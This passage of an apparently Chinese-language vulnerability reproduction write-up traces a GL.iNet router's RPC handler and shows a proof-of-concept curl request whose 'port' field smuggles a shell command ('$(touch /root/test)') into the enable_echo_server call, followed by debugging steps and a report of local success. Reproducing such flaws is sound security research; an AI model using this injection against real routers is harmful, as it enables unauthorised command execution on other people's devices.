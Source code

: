 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT2OVmxDyJicjufFMKd825S8DANLL59NzbRISCNibcUtrKXSic1qHuAYsVeA49rv7sHsMZxtFfnnDfHoQ/640?wx_fmt=png&from=appmsg "")  
图15 /www/cgi-bin/glc 反编译源码  
大致实现逻辑与 /usr/share/gl-ngx/oui-rpc.lua  
 类似，请求方式验证和读取请求体后动态加载并调用函数，区别在于 /www/cgi-bin/glc  
 使用 dlopen  
 动态加载对应的共享库(.so  
 文件)。  
  
如此看来 PoC  
 满足/usr/share/gl-ngx/oui-rpc.lua  
 和 /usr/lib/lua/oui/rpc.lua  
 两段代码逻辑。  
```
curl -H 'glinet: 1' 127.0.0.1/rpc -d '{"method":"call", "params":["", "s2s", "enable_echo_server", {"port": "7 $(touch /root/test)"}]}'
```  
  
请求发送一个 POST  
 请求到 rpc  
 路径，携带 JSON  
 数据：  
```
{    "method": "call",    "params": ["", "s2s", "enable_echo_server", {"port": "7 $(touch /root/test)"}]}
```  
  
权限校验参数检查均通过但是报内部错误，打印 nginx  
 日志看看。  
  
修改 /etc/nginx/nginx.conf  
 并重启 nginx  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT2OVmxDyJicjufFMKd825S8DuwfYYrZWh4bmKNFRPvmDCqdK1S2OicVILhvf5mUl6aY0crUtFa39vTg/640?wx_fmt=png&from=appmsg "")  
图16 修改 /etc/nginx/nginx.conf 配置文件  
再用 PoC  
 测试一次查看日志。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT2OVmxDyJicjufFMKd825S8D4icOsWVfAKnwnAJkmUzNrxnBU5xo303XPIFlsjyUu30v8WibZ2zpDu7A/640?wx_fmt=png&from=appmsg "")  
图17 nginx 日志信息  
报错信息显示 ubus-proxy  
 和 fcgiwrap  
 未启动或未正常配置，尝试启动 ubus  
 fcgiwrap  
。  
```
ubus: /sbin/ubusdfcgiwrap: /etc/init.d/fcgiwrap
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT2OVmxDyJicjufFMKd825S8DtQGhLA0fYqPNYndJVZQiakX94fmahicbEUc6vCYucHFez725zbibe3DeQ/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT2OVmxDyJicjufFMKd825S8DWyVEbHYj7NngFa5FJJXJA5npAzhjGicktLKh6qBt2gTX20vvdhB1UAg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT2OVmxDyJicjufFMKd825S8DY7f0EDyicbtN1jtdHcG3ibXcAECsn1e8X36sdP6E0FCYUX388LHZ6hAw/640?wx_fmt=png&from=appmsg "")  
图18 PoC 本地利用成功  
终于复现成功了。  
  